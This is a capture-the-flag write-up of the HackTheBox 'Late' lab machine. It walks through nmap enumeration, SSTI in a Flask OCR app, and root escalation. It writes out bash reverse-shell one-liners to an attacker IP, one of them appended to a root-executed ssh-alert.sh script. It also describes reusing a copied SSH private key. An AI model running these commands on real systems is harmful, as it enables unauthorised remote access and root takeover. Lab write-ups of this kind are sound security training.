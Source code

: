 # Late - HackTheBox WriteUp

<img src="../htb_assets/images/late/2022-08-01-10-32-37-image.png"/>

## 1. Enumeration

### Nmap initial scan

```
┌──(root💀kali)-[~/htb/machines/late]
└─# nmap -sC -sV -oN nmap_init 10.10.11.156
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-01 10:33 EDT
Nmap scan report for 10.10.11.156
Host is up (0.22s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web Enumeration

Open browser and goto http://10.10.11.156. While browsing a hyperlink can be found.

<img src="../htb_assets/images/late/2022-08-01-10-38-10-image.png"/>

This hyperlink redirects to images.late.htb. So add late.htb and images.late.htb to hosts file.

Moving to images.late.htb, there is an image scanner which reads text inside the image and convert it into text. And this is build using flask.

<img src="../htb_assets/images/late/2022-08-01-14-41-45-image.png"/>

It is vulnerable to SSTI template injection.

Create image containing an SSTI payload in text format.

<img src="../htb_assets/images/late/2022-08-02-02-20-37-image.png"/>

Upload and scan this image in the website.

This payload will be executed in the server and it output backs the result of "id" command which is executed.

<img src="../htb_assets/images/late/2022-08-02-02-23-30-image.png"/>

To make it simple, create an index.html file and add bash reverse shell one liner to it.

```
bash -i >& /dev/tcp/10.10.14.21/4242 0>&1
```

Turn on python server on port 80 to retrieve index.html and turn on netcat listener on port 4242 to get reverse shell.

Now upload image with the following SSTI payload.

<img src="../htb_assets/images/late/2022-08-02-02-45-48-image.png"/>

Payload got executed in the server and thus gets reverse shell.

```
svc_acc@late:~/app$ id
id
uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)

svc_acc@late:~/app$ whoami
whoami
svc_acc
```

Stabilise the shell using python.

<img src="../htb_assets/images/late/2022-08-02-02-59-37-image.png"/>

An unusual script (ssh-alert.sh) is on /usr/bin/sbin/ directory. What this script does is, it sends a mail to the user who login using ssh. So this script executes with root privileges when a user login using ssh into the machine. 

<img src="../htb_assets/images/late/2022-08-02-03-39-39-image.png"/>

While checking the attribute of the script, user can append to this script.

<img src="../htb_assets/images/late/2022-08-02-03-40-49-image.png"/>

So, a reverse shell command can be appended to gain root access.

```
echo "bash -i >& /dev/tcp/10.10.14.21/9001 0>&1" >> ssh-alert.sh
```

This command to gain root shell will be appended to the script and whenever a user logs in through ssh, the listner will receive a shell with root privileges.

To perform this, copy contents of ssh private key of user svc_acc and set permissions to 600. Turn on netcat listener on port 9001. Login using id_rsa key which is created.

<img src="../htb_assets/images/late/2022-08-02-03-41-12-image.png"/>

<img src="../htb_assets/images/late/2022-08-02-03-41-52-image.png"/>

While svc_acc logged in using ssh, ssh-alert.sh script got executed which contains the reverse shell command. 

This gives a root shell through the netcat listener and the root flag can be found at root user's home directory.
